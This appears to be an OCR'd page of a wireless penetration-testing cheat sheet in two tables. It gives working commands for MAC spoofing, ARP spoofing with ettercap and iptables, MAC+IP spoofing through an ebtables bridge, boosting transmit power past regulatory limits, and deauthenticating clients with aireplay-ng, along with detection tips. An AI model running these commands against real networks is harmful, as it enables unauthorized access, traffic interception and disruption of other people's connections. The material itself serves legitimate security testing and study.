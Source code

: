 |---------------------------------|-------------------------------|---------------------------------------------------------------------------------------------------------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------------------------------------------------------------------|--------------------------------------------------------------|
| MAC-based Authorization         | MAC Spoofing                  | Changing the attacker's MAC address to that of an authorized client to bypass MAC-based authorization                                              | `ifconfig wlan0 hw ether <authorized_MAC_address>`                                                                                             | Use `ifconfig` to change the MAC address of the attacker's interface to match that of an authorized client.                 | Monitor for duplicate MAC addresses on the network.           |
| IP-based Authorization          | IP Spoofing                   | Spoofing the IP address of an authorized client and forwarding traffic to bypass IP-based authorization                                            | `echo 1 > /proc/sys/net/ipv4/ip_forward; ettercap -T -q -i wlan0 -w dump -M ARP /<IP_authorized_client>/ /<IP_gateway>/; iptables -t nat -A OUTPUT -d ! <LAN> -j SNAT --to <IP_authorized_client>; iptables -t mangle -A FORWARD -d <IP_authorized_client> -j TTL --ttl-inc 1;` | Enable IP forwarding and use `ettercap` to perform ARP spoofing, followed by setting up `iptables` rules for IP spoofing and forwarding. | Monitor for ARP spoofing attempts and unauthorized IP addresses. |
| MAC+IP-based Authorization      | MAC and IP Spoofing           | Combining MAC and IP spoofing to bypass both MAC-based and IP-based authorization methods                                                           | `modprobe bridge; brctl addbr br0; brctl addif br0 <interface>; ebtables -t nat -A POSTROUTING -o <interface> -d <MAC_gateway> -j snat --to-source <MAC_authorized_client>;` | Use `modprobe` and `brctl` to set up a bridge, followed by `ebtables` to perform MAC and IP spoofing.                        | Monitor for anomalies in MAC and IP pairs on the network.     |


### Monitoring

| Monitoring Technique          | Description                                                                                                            | Command(s) Used                                                                                                      |
|-------------------------------|------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------------------------------------------------------------|
| Increase TX Power             | Increases the transmission power of the wireless card to extend range and improve signal strength                      | `iw reg set B0; iwconfig wlan0 txpower 30`                                                                           |
| Monitor 2.4GHz (w/ channel hopping) | Captures packets on the 2.4GHz band, hopping across channels for comprehensive monitoring                         | `airodump-ng mon0`                                                                                                   |
| Monitor 5GHz (w/ channel hopping) | Captures packets on the 5GHz band, hopping across channels for comprehensive monitoring                              | `airodump-ng --band a mon0`                                                                                          |
| Monitor specific Channel      | Captures packets on a specific channel                                                                                 | `airodump-ng -c <channel> mon0`                                                                                      |
| Monitor Clients on AP         | Monitors clients connected to a specific AP                                                                            | `airodump-ng -c <channel> --bssid <MAC_AP> -w <capture_file> mon0`                                                   |
| Find Hidden SSID              | Reveals hidden SSIDs by deauthenticating clients and capturing reauthentication packets                                | `airodump-ng -c <channel> --bssid <MAC_AP> mon0` <br> `aireplay-ng -0 20 -a <MAC_AP> mon0`                           |
| All-in-one w/ web UI          | Comprehensive monitoring with a web UI for easy access and visualization                                               | `kismet -c mon0`                                                                                                     |
| Generate Graph of Probe Requests of nearby Devices | Creates a graphical representation of probe requests from nearby devices                                         | `airodump-ng -r targetnet.pcap -w TARGETNET` <br> `airgraph-ng -i TARGETNET-01.csv -g CPG -o targetnet-pnl.png`       |
| Wardriving                    | Collects and logs details of wireless networks while moving through different locations                                | [https://wigle.net](https://wigle.net)                                                                               |

